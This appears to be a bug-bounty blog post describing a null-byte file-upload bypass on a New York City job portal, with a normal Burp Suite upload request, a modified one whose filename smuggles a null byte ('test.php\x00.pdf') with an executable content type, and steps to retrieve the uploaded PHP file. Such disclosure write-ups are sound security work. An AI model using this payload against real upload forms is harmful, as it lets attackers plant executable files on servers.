```yaml
---
layout: post
title: "Null-Byte File Upload Bypass: PoC on a NYC Portal"
date: 2025-08-29
categories: [bug-bounty]
permalink: /blog/NYC-DOWN-FUV
locked: false
---
```


<div class="post-header-image">
  <img 
    src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dIWSWrtC08kIaoVTLITp5w.jpeg"
    alt="Banner"
  />
</div>

While searching for jobs on a New York City job portal, I decided to create an account and explore the platform’s features. One of the first things I did was update my profile and upload my resume, just like any typical job seeker would. The profile page looked something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*LfMseQB6u9eC7ER5irMVAA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>


As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality. The platform only allowed certain file types specifically PDF and TXT files. Any attempt to upload other or potentially malicious files was blocked.

When uploading a file, you would see a request similar to this:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="rest.pdf"
Content-Type: application/pdf

%PDF-1.3
%Äåòåë§ó ÐÄÆ
4 0 obj
<< /Length 5 0 R /Filter /FlateDecode >>
stream.....
</code></pre>
</div>

However, if we modify the upload request and change the filename to include a null byte (for example, `test.php\x00.pdf`) and set the `Content-Type` to something like `application/vnd.microsoft.portable-executable`, the server processes the file as `test.php\x00.pdf`. This could potentially allow us to bypass the file type restrictions.

Here’s how the modified request would look:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="test.php\x00.pdf"
Content-Type: application/vnd.microsoft.portable-executable

<--MZ binary content-->
------WebKitFormBoundaryvqrfq0aFgpBXXzTT--
</code></pre>
</div>

This trick can sometimes bypass weak file validation mechanisms, potentially allowing the upload of executable or malicious files.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*4sE7RSkRelC-XNJeqqNgBg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Now, when you try to access the uploaded file, the application returns a "Page Not Found" error, and the URL looks like this:

```
http://localhost:5000/file/filename.php/x00
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*yPJ1-vbmpXkK2wkQYowPtA.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

However, if you manually remove the `/x00` from the URL so it becomes:

```
http://localhost:5000/file/filename.php
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*FUQ2f6XnHFX7cxqhFNDRFg.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

you are able to download the uploaded PHP file directly.

Below is a demonstration of replicating this vulnerability on a test environment (not the NYC job portal), but the screenshots above are from the real site:

## Video Demonstration

<div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden;">
  <iframe 
    src="https://www.youtube.com/embed/p3waRC1e7jo" 
    frameborder="0" 
    allowfullscreen 
    style="position: absolute; top:0; left: 0; width: 100%; height: 100%;">
  </iframe>
</div>

**Thank you for reading!** If you found this post helpful or interesting, stay tuned for more cybersecurity stories and insights. See you

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*83hlWRWOv-NhKdltd1awtg.png"
  alt="No Detection"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>